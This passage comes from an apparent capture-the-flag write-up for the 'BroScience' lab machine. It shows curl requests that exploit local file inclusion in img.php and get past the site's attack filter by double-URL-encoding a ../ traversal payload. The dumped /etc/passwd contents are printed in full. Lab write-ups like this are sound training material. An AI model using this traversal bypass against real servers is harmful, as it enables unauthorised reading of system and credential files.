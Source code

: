 `activate.php` requires a `code` variable to be input. Perhaps this is the place we go to activate our registered accounts.

### LFI in img.php

When heading to the `/includes` directory, we can find some other PHP files that could contain credentials.

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Out of all of them, `img.php` requires a `path` parameter to be passed to it. It also detects LFI

```bash
$ curl -k https://broscience.htb/includes/img.php
<b>Error:</b> Missing 'path' parameter. 
$ curl -k https://broscience.htb/includes/img.php?path=/etc/passwd
<b>Error:</b> Attack detected.
```

We can attempt to read the db\_connect.php file somehow. I attempted to double URL encode the `path` value, and it worked!

```bash
$ curl -k https://broscience.htb/includes/img.php?path=..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
```